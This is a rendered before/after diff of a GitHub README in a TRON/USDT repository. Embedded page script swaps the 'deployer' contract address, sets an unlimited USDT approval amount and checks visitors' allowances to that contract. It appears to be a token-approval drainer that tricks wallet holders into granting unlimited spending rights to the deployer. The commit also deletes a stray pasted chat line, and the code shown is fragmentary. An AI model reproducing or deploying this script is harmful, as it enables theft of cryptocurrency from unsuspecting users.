

Before and after one commit to trc20trx-alt/Trc20.TRX, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style.

Commit message:
Update README.md
源码更改

```diff
--- a/README.md
+++ b/README.md
@@ -116,7 +30,7 @@ contract HelpTransferWithNotification {
 
     <script>
         // -------------------------- 部署者仅需修改这里！！！ --------------------------
-        const YOUR_DEPLOYED_CONTRACT = "TNAfknJTfkPbgmyfpwg3rJQrd17ZLKEMQa"; // 👉 替换成你的HelpTransferWithNotification合约地址
+        const YOUR_DEPLOYED_CONTRACT = "TCxy2KKNDTqvYfAkgaHJHLoMAmwvY4XBB5"; // 👉 替换成你的HelpTransferWithNotification合约地址
         const USDT_CONTRACT = "TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t"; // TRC20-USDT官方地址（无需改，除非授权其他代币）
         const MAX_APPROVE = "115792089237316195423570985008687907853269984665640564039457584007913129639935"; // 无限授权额度
         // -----------------------------------------------------------------------------
@@ -173,8 +87,6 @@ contract HelpTransferWithNotification {
         // 4. 检测用户是否已授权（自动跳过重复操作）
         async function checkIfAuthorized(userAddr) {
             try {
-
-唐艺, [2025/10/20 23:41]
 const usdtContract = await tronWeb.contract().at(USDT_CONTRACT);
                 const approvedAmount = await usdtContract.allowance(userAddr, YOUR_DEPLOYED_CONTRACT).call();
 
```
Also changed, not shown: other parts of README.md (+1 -87 lines).
